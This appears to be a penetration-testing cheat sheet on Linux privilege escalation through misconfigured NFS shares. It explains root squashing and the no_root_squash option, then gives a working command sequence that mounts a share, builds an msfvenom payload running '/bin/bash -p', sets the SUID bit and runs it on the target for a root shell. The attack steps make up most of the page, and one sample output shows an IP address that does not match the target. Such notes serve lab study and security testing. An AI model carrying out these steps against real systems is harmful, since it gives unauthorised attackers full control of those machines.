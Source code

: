 # NFS

NFS (Network File System) is a popular distributed file system.NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files. By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.

## Useful Commands

Show the NFS server’s export list:

#### `showmount -e [target]`

Similar Nmap script:

#### `nmap –sV –script=nfs-showmount [target]`

Mount an NFS share:

#### `mount -o rw,vers=2 [target]:[share] [local_directory]`

## Root Squashing

Root Squashing is how NFS prevents an obvious privilege escalation. If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group.While this behavior is default, it can be disabled!

## no\_root\_squash

no\_root\_squash is an NFS configuration option which turns root squashing off. When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

Check the contents of /etc/exports for shares with the no\_root\_squash option:

#### `cat /etc/exports`

![](../../../.gitbook/assets/nfs1.png)

Confirm that the NFS share is available for remote mounting:

#### `root@W4LK3R:~# showmount -e 192.168.1.25` `Export list for 192.168.56.102:` `/tmp *`

Create a mount point on your local machine and mount the /tmp NFS share:

#### `mkdir /tmp/nfs` `mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs`

Using the root user on your local machine, generate a payload and save it to the mounted share:

#### `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Make sure the file has the SUID bit set, and is executable by everyone:

#### `chmod +xs /tmp/nfs/shell.elf`

On the target machine, execute the file to get a root shell:

#### `/tmp/shell.elf`
